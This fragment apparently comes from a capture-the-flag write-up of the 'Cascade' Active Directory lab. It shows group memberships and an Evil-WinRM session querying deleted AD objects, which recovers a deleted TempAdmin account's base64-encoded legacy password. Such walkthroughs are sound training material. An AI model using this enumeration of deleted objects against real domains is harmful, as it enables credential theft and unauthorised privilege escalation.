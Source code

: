 ```shell
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

```bash
*Evil-WinRM* PS C:\> Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059

*Evil-WinRM* PS C:\> Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
...
```
